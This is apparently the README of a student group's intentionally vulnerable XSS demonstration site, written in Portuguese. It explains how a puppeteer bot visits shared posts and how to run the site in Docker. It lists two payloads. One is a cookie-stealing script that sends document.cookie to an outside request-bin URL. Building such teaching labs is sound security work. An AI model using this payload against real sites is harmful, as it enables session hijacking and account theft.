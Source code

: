 






# Demonstração XSS

Demonstração de XSS para ser exibida na feira dos bixos. Pode ser expandido para um desafio de 
XSS a ser usado no Ping se necessário!

# Payloads:

Tanto o campo nome quanto comentário podem ser utilizados para enviar o XSS na página do post.
Após o envio basta compartilhar a URL no formulário do menu lateral para que o bot (puppeteer)
acesse e execute o payload.

Obs: é feita a verificação se o link pertence ou não ao site, mas como o site é vulneravel a XSS
se alguem quiser que ele acesse outra url é bastante simples via javascript. É necessário configurar corretamente as variáveis do arquivo `.env` para garantir que tudo ocorra nos conformes.

```html
<script>alert('xss');</script>
<script>fetch('https://ent6k7fximtwm.x.pipedream.net/c=' + document.cookie);</script>
```

# Executing the docker

```bash
sudo docker build --no-cache -t "ganesh/demo-xss" .
```

```bash
sudo docker run -d -p "80:80" --rm --name "ganesh-demo-xss" "ganesh/demo-xss"
```